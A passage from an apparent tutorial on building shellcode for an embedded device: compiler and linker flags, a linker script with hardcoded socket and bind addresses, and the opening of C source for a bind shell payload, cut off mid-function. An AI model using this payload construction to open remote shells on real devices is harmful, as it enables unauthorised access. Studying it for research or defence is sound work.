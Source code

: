 Remove compiler optimizations:

- **mno-abilcalls** - Do not generate code that is suitable for SVR4-style dynamic objects.
- **fno-builtin** - Tells the compiler not to use generic handling and optimization of standard C and C++ library functions and operators.

Do not use standard libraries when linking:

- **nostdlib** - Do not use the C library or system libraries tightly coupled with it when linking.
- **nodefaultlibs** - Do not use the standard system libraries when linking.
- **nostartfiles** - Do not use the standard system startup files when linking.

#### Linker Script

The linker script will contain the addresses of functions you plan on using and the
SECTIONS definition set the start address where your shellcode should be written to in
memory:

{% highlight c %}
socket = 0x80d95970;
bind = 0x80d95c78;

//--snip--

SECTIONS
{
  . = 0x80810000;
  .start : { *(.start) }
  .text : { *(.text) }
  .data : { *(.data) }
  .rodata : { *(.rodata) }
}
{% endhighlight %}

#### Shellcode

This time let's setup a bindshell:

{% highlight c %}
#include "external.h"
#include "payload.h"
/**
 * This is the most basic reverse shell example I could come up with.
 * This is blocking when called from the CLI.   
 */
#define PAYLOAD_PRIORITY     23
#define PAYLOAD_STACKSIZE  0x2000
#define COMMAND_OFFSET  0x1080

int __start(unsigned long ip_address, unsigned short port)
{
    // create remote host sockaddr structure with received IP
    // and port as command line parameters
    struct sockaddr_in* host = (struct sockaddr_in*)\
        malloc(sizeof(struct sockaddr_in)); 
    host->sin_family = AF_INET;
    host->sin_port = port; 
    host->sin_addr.s_addr = ip_address;

    int sockfd;
    int recvd;
    int client_sockfd;
    int new_addrlen;
    struct sockaddr_in client_addr;

    char addrbuf[16];
    inet_ntop4(&host->sin_addr, addrbuf, sizeof(addrbuf));
    printf("[+] Launching bind shell on %s:%d\n", addrbuf, host->sin_port);
    